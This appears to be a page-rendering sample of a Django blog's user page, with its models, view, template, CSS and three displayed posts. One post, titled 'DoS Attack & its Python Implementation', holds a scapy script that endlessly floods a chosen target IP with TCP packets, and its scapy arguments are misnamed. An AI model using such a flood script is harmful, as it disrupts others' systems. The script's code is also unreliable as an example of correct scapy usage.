

Screenshot of /user/admin with the database file from the repository (2 pictures, top to bottom).
### blog/models.py (models this page shows, shortened)
class Post(models.Model):
    title=models.CharField(max_length=256)
    content=models.TextField()
    date_posted=models.DateTimeField(default=timezone.now)
    author=models.ForeignKey(User,on_delete=models.CASCADE)

### users/models.py (models this page shows, shortened)
class Profile(models.Model):
    user=models.OneToOneField(User,on_delete=models.CASCADE)
    image=models.ImageField(default='default.jpg',upload_to='profile_pics')

### blog/views.py (the view)
# urls.py: path('user/<username>',UserPostListView.as_view(),name='user-posts'),
class UserPostListView(ListView):
    model=Post
    template_name='blog/user_posts.html' #<app>/<model>_<viewtype>.html
    context_object_name='posts'
    paginate_by=5
    def get_queryset(self):
        user=get_object_or_404(User,username=self.kwargs.get('username'))
        return Post.objects.filter(author=user).order_by('-date_posted')

### blog/templates/blog/user_posts.html (shortened to what this page needs)
{% extends "blog/base.html" %} {% block content %}
<h1 class="mb-3">Post by {{ view.kwargs.username }} ({{ page_obj.paginator.count }})</h1>
{% for post in posts %}
<article class="media content-section">
  <img
    class="rounded-circle article-img"
    src="{{ post.author.profile.image.url }}"
  />
  <div class="media-body">
    <div class="article-metadata">
      <a class="mr-2" href="{% url 'user-posts' post.author.username %}">{{ post.author }}</a>
      <small class="text-muted">{{ post.date_posted|date:"F d, Y" }}</small>
    </div>
    <h2>
      <a class="article-title" href="{% url 'post-detail' post.id %}"
        >{{ post.title }}</a
      >
    </h2>
    <p class="article-content">{{ post.content }}</p>
  </div>
</article>
{% endfor %}
{% endblock content %}

### blog/static/blog/main.css (style rules this page uses)
body { background: #fafafa; color: #333333; margin-top: 5rem; }
h1, h2, h3, h4, h5, h6 { color: #444444; }
.content-section { background: #ffffff; padding: 10px 20px; border: 1px solid #dddddd; border-radius: 3px; margin-bottom: 20px; }
.article-title { color: #444444; }
.article-content { white-space: pre-line; }
.article-img { height: 65px; width: 65px; margin-right: 16px; }
.article-metadata { padding-bottom: 1px; margin-bottom: 4px; border-bottom: 1px solid #e3e3e3; }

### rows the page displays
Post: author.profile.image (picture), author "admin", date_posted "July 06, 2021", title "Check Palindrome Number", content "#include <iostream> using namespace std; int main() { int n, num, digit, rev = 0; cout << \"Enter a positive number: \"; cin >> num; n = num; do { digit = num % 10; rev = (rev * 10) + digit; num = num / 10; } while (num != 0); cout << \" The reverse of the number is: \" << rev << endl; if (n == rev) cout<< \" The number is a palindrome.\"; else cout<< \" The number is not a palindrome.\"; return 0; }"
Post: author.profile.image (picture), author "admin", date_posted "July 06, 2021", title "DoS Attack & its Python Implementation", content "from scapy.all import * source_IP = input(\"Enter IP address of Source: \") target_IP = input(\"Enter IP address of Target: \") source_port = int(input(\"Enter Source Port Number:\")) i = 1 while True: IP1 = IP(source_IP = source_IP, destination = target_IP) TCP1 = TCP(srcport = source_port, dstport = 80) pkt = IP1 / TCP1 send(pkt, inter = .001) print (\"packet sent \", i) i = i + 1"
Post: author.profile.image (picture), author "admin", date_posted "July 06, 2021", title "C Program to Display Fibonacci Sequence", content "#include <stdio.h> int main() { int i, n; // initialize first and second terms int t1 = 0, t2 = 1; // initialize the next term (3rd term) int nextTerm = t1 + t2; // get no. of terms from user printf(\"Enter the number of terms: \"); scanf(\"%d\", &n); // print the first two terms t1 and t2 printf(\"Fibonacci Series: %d, %d, \", t1, t2); // print 3rd to nth terms for (i = 3; i <= n; ++i) { printf(\"%d, \", nextTerm); t1 = t2; t2 = nextTerm; nextTerm = t1 + t2; } return 0; }"

### other values shown
{{ view.kwargs.username }} "admin"
{{ page_obj.paginator.count }} "3"
